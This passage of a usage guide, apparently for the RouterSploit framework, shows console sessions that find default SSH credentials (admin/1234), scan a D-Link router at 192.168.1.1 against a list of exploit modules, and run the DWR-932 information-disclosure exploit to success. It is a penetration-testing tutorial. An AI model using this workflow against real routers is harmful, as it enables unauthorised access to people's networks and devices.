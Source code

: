     (..)

    Elapsed time:  38.9181981087 seconds
    [+] Credentials found!
	
    Login     Password     
    -----     --------     
    admin     1234         

    rsf (SSH Default Creds) > 
	
## 3. Scanners

Scanners allow quickly verify if the target is vulnerable to any exploits.

### Pick module

    rsf > use scanners/dlink_scan
    rsf (D-Link Scanner) > show options


### Options

    Target options:
    
       Name       Current settings     Description                                
       ----       ----------------     -----------                                
       target                          Target address e.g. http://192.168.1.1     
       port       80                   Target port                                

Set target:

    rsf (D-Link Scanner) > set target 192.168.1.1
    [+] {'target': '192.168.1.1'}

### Run module

    rsf (D-Link Scanner) > run
    [+] exploits/dlink/dwr_932_info_disclosure is vulnerable
    [-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
    [-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
    [-] exploits/dlink/dns_320l_327l_rce is not vulnerable
    [-] exploits/dlink/dir_645_password_disclosure is not vulnerable
    [-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
    [-] exploits/dlink/dir_300_600_rce is not vulnerable
    
    [+] Device is vulnerable!
     - exploits/dlink/dwr_932_info_disclosure

It has been verified that target is vulnerable to dwr\_932\_info\_disclosure exploit. Now use proper module and exploit target.

    rsf (D-Link Scanner) > use exploits/dlink/dwr_932_info_disclosure
    rsf (D-Link DWR-932 Info Disclosure) > set target 192.168.1.1
    [+] {'target': '192.168.1.1'}
    rsf (D-Link DWR-932 Info Disclosure) > exploit
    [*] Running module...
    [*] Decoding JSON value
    [+] Exploit success
    